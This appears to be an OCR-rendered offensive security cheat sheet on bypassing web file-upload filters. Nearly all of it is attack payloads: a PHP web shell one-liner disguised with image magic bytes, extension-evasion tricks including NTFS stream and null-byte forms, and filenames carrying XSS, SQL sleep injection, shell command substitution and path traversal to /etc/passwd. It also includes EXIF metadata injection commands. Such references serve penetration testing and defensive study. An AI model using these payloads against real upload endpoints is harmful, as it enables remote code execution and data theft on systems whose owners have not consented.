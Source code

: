         *   `Content-Type: image/[png/gif/jpeg]`
        *   [Fuzzing Wordlist](https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/Web/content-type.txt)
        *   Double Header → Unallowed + Allowed
    *   MIME Confusion
        *   `echo '[BYTES]<?php system($_GET["cmd"]); ?>' > shell.[IMG_EXTENSION]`
        *   PNG → `\x89PNG\r\n\x1a\n\0\0\0\rIHDR\0\0\x03H\0\xs0\x03[`
        *   JPG  → `\xff\xd8\xff`
        *   GIF   → `GIF87a` / `GIF8` / `GIF8;`
    *   Extension Bypass
        *   [Extension Fuzzing](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt)
        *   Wrapping
            *   `.[EXECUTABLE].[ALLOWED]`
            *   `.[ALLOWED].[EXECUTABLE]`
            *   `.%E2%80%AE[EXECUTABLE].[ALLOWED]`
        *   Case Switching
            *   `PhP5`
            *   `ASp`
        *   Slash Break
            *   `.[EXECUTABLE]/`
            *   `.[EXECUTABLE].\`
            *   `.[EXEC\UTABLE]`
            *   `.[EXECU/TABLE]`
            *   `.[EXECUTABLE]/././././.`
        *   ADS Stream
            *   `file.[IIS_EXECUTABLE]:.[ALLOWED]`
            *   `file.[IIS_EXECUTABLE]::$data.`
        *   Character Injection
            *   `.[EXECUTABLE][STR].[ALLOWED]`
            *   `[STR].[EXECUTABLE].[ALLOWED]`
            *   `.[ALLOWED].[EXECUTABLE][STR]`
            *   `.[ALLOWED][STR].[EXECUTABLE]`
            *   Strings
                *   `%20` → `%0a` → `%0d0a`
                *   `;`     → `:`     → `...`
                *   `%00` → `\x00`
                *   [Homoglyphs](https://www.irongeek.com/homoglyph-attack-generator.php)
    *   Injection / XSS
        *   Filename
            *   Reflected / Processed → XSS / SSTI / CSTI / SQL / OS / LFI
            *   `'"><img src=x onerror=alert(document.domain)>.png`
            *   `poc.js'(select*from(select(sleep(20)))a)+'.jpg`
            *   `file';select+sleep(5);--.jpg`
            *   `file$(sleep 5).png`
            *   `image.png../../../../../../../etc/passwd`
        *   [EXIF Tags](https://exiv2.org/tags.html)
            *   Metadata Reflection / Processing
            *   `convert -size 110x110 xc:white file.png`
            *   `exiftool -[TAG]="[INJECTION/BACKEND/XSS]" file.png`
